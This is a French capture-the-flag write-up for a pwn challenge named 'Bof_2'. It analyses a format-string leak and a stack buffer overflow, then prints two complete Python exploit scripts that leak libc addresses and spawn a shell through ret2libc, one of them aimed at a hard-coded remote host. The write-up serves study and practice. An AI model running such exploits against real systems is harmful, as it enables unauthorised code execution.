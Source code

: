 # Bof_2

## Analyse

Le binaire `service` est donné pour ce challenge.
A nouveau le titre nous indique que je vais devoir exploiter un Buffer Overflow.

Je regarde les attributs du binaire dans un premier temps.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_2 $ checksec ./service                           
[*] '/home/aether/Documents/ctf/cyberthreatforce/pwn/Bof_2/service'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_2 $ file ./service
./service: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c68e88be2ae184ad3f0ab9657d318a2184c62f0e, not stripped
```

Rien de bien intéressant du côté de la commande `strings`.

Je passe au reverse du binaire pour comprendre son fonctionnement avec son exécution.

La fonction `main` est très courte et permet de repérer rapidement la fonction à exploiter.

```js
undefined4 main(void)
{
  ignorMe(&stack0x00000004);
  vuln();
  puts("oops i have lost my db sorry");
  return 0;
}
```

La fonction `vuln` demande un nom d'utilisateur, puis l'affiche avec un `printf` et demande un mot de passe via `scanf`.

```js
[snip]
  fgets(&username_fmtstr,0x50,stdin);
  sVar2 = strlen(&username_fmtstr);
  (&cStack130)[sVar2] = '\0';
  printf("Bienvenue ");
  printf(&username_fmtstr);
  printf("\npassword: ");
  __isoc99_scanf(&DAT_00012042,password_bfoverflow);
  iVar3 = strcmp(password_bfoverflow,&username_fmtstr);
  if (iVar3 == 0) {
    puts("WTF ?");
  }
```

Il y a donc deux vulnérabilités dans ce programme, la première avec le `printf(&username_fmtstr);` qui permet de faire une format string.
Puis `__isoc99_scanf(&DAT_00012042,password_bfoverflow);` qui permet de faire un buffer overflow.

La format string, va me permettre de leak des adresses et potentiellement des adresses de la libc.

En plaçant un breakpoint sur le second `printf` et en regardant la stack depuis `gdb-peda`, j'apprend que deux addresses de la libc sont disponibles.

```js
0000| 0xffffcf30 --> 0xffffcf4b --> 0x736c ('ls')
0004| 0xffffcf34 --> 0x50 ('P')
0008| 0xffffcf38 --> 0xf7f9d5c0 --> 0xfbad2288 
0012| 0xffffcf3c --> 0x56556207 (<vuln+14>:	add    ebx,0x2df9)
0016| 0xffffcf40 --> 0xf7e35ee7 (<_IO_file_setbuf+7>:	add    ebx,0x167119)
0020| 0xffffcf44 --> 0xf7f9b880 --> 0x0 
0024| 0xffffcf48 --> 0x6cf9dce0 
0028| 0xffffcf4c --> 0x73 ('s')
gdb-peda$ x/x 0xf7f9d5c0
0xf7f9d5c0 <_IO_2_1_stdin_>:	0xfbad2288
```

`_IO_2_1_stdin_` sera la deuxième adresse leak puis `_IO_file_setbuf+7` sera la 4ieme.

Avec le format `%p`, je vais donc pouvoir leak ces deux adresses et récupérer la libc distante grâce au site <https://libc.blukat.me/>.

Suite à cela, il ne me restera plus qu'à faire un ret2libc en calculant l'offset de départ de la libc.

Pour le payload, je récupère l'adresse de `_IO_2_1_stdin_`, avec la libc, je calcule l'offset de départ.
Ce qui me permet de récupérer la fonction `system` ainsi que la string `/bin/sh` puis,
j'overflow et je jump sur la fonction `system` avec comme argument `/bin/sh`.
`ARTH` sera la fonction exécuté après `system` étant donné que je n'ai pas besoin d'en exécuter je peux simplement mettre du garbage sur 4 bytes.

Voila l'exploit local:

```python
#!/usr/bin/env python3

from pwn import *

# LIBC
LIBC = ELF("./libc/libc_local.so")

if __name__ == "__main__":
    # Connect to the challenge
    p = process("./service")
    # Recv the header
    print(p.read())

    # Leak <_IO_2_1_stdin_> and <_IO_file_setbuf+7>
    p.send(b"%p.%p.%p.%p\n")
    libc_leak = p.read()
    io_stdin = libc_leak.split(b".")[1]
    io_file_setbuf = libc_leak.split(b".")[3].splitlines()[0][:-1] + b"0"

    # Garbage
    print(f"[+] Find <_IO_2_1_stdin_>: {io_stdin}")
    print(f"[+] Find <_IO_file_setbuf>: {io_file_setbuf}")

    # Compute libc start
    libc_start = int(io_stdin[2:], 16) - LIBC.symbols["_IO_2_1_stdin_"]
    print(f"[+] libc base address: {hex(libc_start)}")

    # Get system addr
    system_addr = libc_start + LIBC.symbols["system"]
    print(f"[+] system address : {hex(system_addr)}")

    # Get binsh addr
    binsh_addr = libc_start + next(LIBC.search(b"/bin/sh"))
    print(f"[+] /bin/sh address : {hex(binsh_addr)}")

    # Convert to real addr
    system_addr = p32(system_addr)
    binsh_addr = p32(binsh_addr)

    payload_ret2libc = b"".join([
        b"A" * 0x31,# Buffer overflow
        system_addr,
        b"ARTH",
        binsh_addr
    ])

    # Send payload in password
    p.send(payload_ret2libc + b"\n")

    p.interactive()
```

Le test en local concluant.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_2 $ python3.8 local_exploit.py
[*] '/home/aether/Documents/ctf/cyberthreatforce/pwn/Bof_2/libc/libc_local.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './service': pid 14994
b'Hello authentifie toi !\nUsername: '
[+] Find <_IO_2_1_stdin_>: b'0xf7f175c0'
[+] Find <_IO_file_setbuf>: b'0xf7dafee0'
[+] libc base address: 0xf7d3f000
[+] system address : 0xf7d7c2e0
[+] /bin/sh address : 0xf7ebd0af
[*] Switching to interactive mode
$ id
uid=1000(aether) gid=1000(aether) groupes=1000(aether)
```

Je peux changer mon script pour utiliser `socket` à la place de `pwntools`.

```python
#!/usr/bin/env python3

from pwnlib.elf.elf import ELF

import socket
import struct

def p32(addr):
    return struct.pack("<I", addr)

# Connect to the challenge
HOST = "144.217.73.235"
PORT = 21590
# LIBC
LIBC = ELF("./libc/libc6-i386_2.28-10_amd64.so")

def connect(HOST, PORT):
    tcp = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    tcp.connect((HOST, PORT))
    tcp.settimeout(1)
    return tcp

def recv(tcp):
    data = b""
    while True:
        try:
            data += tcp.recv(1024)
        except socket.timeout:
            break
    return data

if __name__ == "__main__":
    # Connect to the challenge
    tcp = connect(HOST, PORT)
    # Recv the header
    print(recv(tcp))

    # Leak <_IO_2_1_stdin_> and <_IO_file_setbuf+7>
    tcp.send(b"%p.%p.%p.%p\n")
    libc_leak = (recv(tcp))
    io_stdin = libc_leak.split(b".")[1]
    io_file_setbuf = libc_leak.split(b".")[3].splitlines()[0][:-1] + b"0"

    # Garbage
    print(f"[+] Find <_IO_2_1_stdin_>: {io_stdin}")
    print(f"[+] Find <_IO_file_setbuf>: {io_file_setbuf}")

    # Compute libc start
    libc_start = int(io_stdin[2:], 16) - LIBC.symbols["_IO_2_1_stdin_"]
    print(f"[+] libc base address: {hex(libc_start)}")

    # Get system addr
    system_addr = libc_start + LIBC.symbols["system"]
    print(f"[+] system address : {hex(system_addr)}")

    # Get binsh addr
    binsh_addr = libc_start + next(LIBC.search(b"/bin/sh"))
    print(f"[+] /bin/sh address : {hex(binsh_addr)}")

    # Convert to real addr
    system_addr = p32(system_addr)
    binsh_addr = p32(binsh_addr)

    payload_ret2libc = b"".join([
        b"A" * 0x31,# Buffer overflow
        system_addr,
        b"ARTH",
        binsh_addr
    ])

    # Send payload in password
    tcp.send(payload_ret2libc + b"\n")

    while True:
        try:
            tcp.send(input(">>> ").encode() + b"\n")
            print(tcp.recv(1024).decode().strip())
        except socket.timeout:
            continue
        except KeyboardInterrupt:
            exit(0)
```

A nouveau le flag se situe sous `/home/ctf/flag.txt`.

flag: `CYBERTF{l3@ks_I5_Us3Fu11}`
